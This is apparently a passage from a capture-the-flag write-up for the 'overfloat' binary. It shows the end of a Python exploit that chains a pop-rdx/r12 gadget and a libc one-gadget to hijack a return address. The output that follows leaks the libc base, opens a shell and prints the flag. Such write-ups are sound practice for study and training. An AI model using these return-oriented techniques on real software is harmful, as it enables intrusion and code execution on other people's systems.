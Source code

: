 ```python=
# Overwrite rdx 0x0, also r12
print(f'Jumpiong to {hex(base + popRdxR12Offset)}')
sendVal(base + popRdxR12Offset)
sendVal(0x0)
sendVal(0x0)

# Overwrite the return address with a one gadget
print(f'Jumping to {hex(base + oneShotOffset)}')
sendVal(base + oneShotOffset)

# Send done so our rop chain executes
target.sendline('done')

target.interactive()
```


Running
```
$ python3 myExploit.py
[+] Starting local process './overfloat': pid 3764
  print(target.recvuntil('BON VOYAGE!\n'))
b'                                 _ .--.        \n                                ( `    )       \n                             .-\'      `--,     \n                  _..----.. (             )`-. \n                .\'_|` _|` _|(  .__,           )\n               /_|  _|  _|  _(        (_,  .-\' \n              ;|  _|  _|  _|  \'-\'__,--\'`--\'    \n              | _|  _|  _|  _| |               \n          _   ||  _|  _|  _|  _|               \n        _( `--.\\_|  _|  _|  _|/               \n     .-\'       )--,|  _|  _|.`                 \n    (__, (_      ) )_|  _| /                   \n      `-.__.\\ _,--\'\\|__|__/                  \n                    ;____;                     \n                     \\YT/                     \n                      ||                       \n                     |""|                    \n                     \'==\'                      \n\nWHERE WOULD YOU LIKE TO GO?\nLAT[0]: LON[0]: LAT[1]: LON[1]: LAT[2]: LON[2]: LAT[3]: LON[3]: LAT[4]: LON[4]: LAT[5]: LON[5]: LAT[6]: LON[6]: LAT[7]: LON[7]: LAT[8]: LON[8]: LAT[9]: LON[9]: LAT[0]: LON[0]: LAT[1]: BON VOYAGE!\n'
libc base: 0x722e54400000
Jumpiong to 0x722e5451f2e7
Jumping to 0x722e544ebc85
  target.sendline('done')
[*] Switching to interactive mode

                                 _ .--.
                                ( `    )
                             .-'      `--,
                  _..----.. (             )`-.
                .'_|` _|` _|(  .__,           )
               /_|  _|  _|  _(        (_,  .-'
              ;|  _|  _|  _|  '-'__,--'`--'
              | _|  _|  _|  _| |
          _   ||  _|  _|  _|  _|
        _( `--.\_|  _|  _|  _|/
     .-'       )--,|  _|  _|.`
    (__, (_      ) )_|  _| /
      `-.__.\ _,--'\|__|__/
                    ;____;
                     \YT/
                      ||
                     |""|
                     '=='

WHERE WOULD YOU LIKE TO GO?
LAT[0]: LON[0]: LAT[1]: LON[1]: LAT[2]: LON[2]: LAT[3]: LON[3]: LAT[4]: LON[4]: LAT[5]: LON[5]: LAT[6]: LON[6]: LAT[7]: LON[7]: LAT[8]: LON[8]: LAT[9]: LON[9]: LAT[0]: LON[0]: LAT[1]: BON VOYAGE!
$ cat flag
Fr0zen1
```